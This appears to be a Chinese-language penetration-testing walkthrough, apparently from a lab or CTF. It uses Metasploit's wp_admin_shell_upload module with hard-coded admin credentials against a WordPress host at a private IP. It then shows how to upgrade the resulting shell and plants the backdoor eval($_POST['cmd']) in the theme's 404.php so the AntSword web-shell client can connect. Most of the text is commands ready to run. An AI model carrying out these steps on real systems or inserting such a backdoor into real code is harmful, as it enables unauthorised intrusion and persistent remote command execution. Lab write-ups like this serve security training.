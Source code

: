 ```Shell
# 或
sudo msfconsole -q
```
搜索相关关键词
```Shell
> search wordpress admin
# 2   exploit/unix/webapp/wp_admin_shell_upload
```
选择模块
```Shell
> use exploit/unix/webapp/wp_admin_shell_upload
# 或 通过序号选择
> use 2
```
查看需要哪些参数
```Shell
> show options
# 重点关注必须设置的参数 及其默认值和描述
```
配置相关参数
```Shell
> set PASSWORD adam14
# PASSWORD => adam14
> set RHOSTS 192.168.1.32
# RHOSTS => 192.168.1.32
> set TARGETURI /wordpress
# TARGETURI => /wordpress
> set USERNAME admin
# USERNAME => admin
```
运行
```Shell
> exploit
# 或
> run
```
跑完会进入 `meterpreter` 环境输入 `shell` 进入shell环境，但这个shell不太完善，很多命令执行有问题。
还是使用之前的Shell，也有问题，没办法正确使用vi编辑文件。需要升级shell交互。
Shell交互升级
```Shell
# 切换成bash
bash
# 重新监听端口获取反弹shell

python3 -c 'import pty; pty.spawn("/bin/bash")'

# <Ctrt-Z> 先挂起

stty raw -echo

fg # 输入这条可能啥也看不到 输一次按回车就行

export SHELL=/bin/bash
export TERM=screen
stty rows 100 columns 200
reset
```
修改主题文件下的代码
```Shell
vi wp-content/themes/twentytwentyone/404.php
```
添加一行
```php
eval($_POST['cmd']);
```
使用蚁剑尝试连接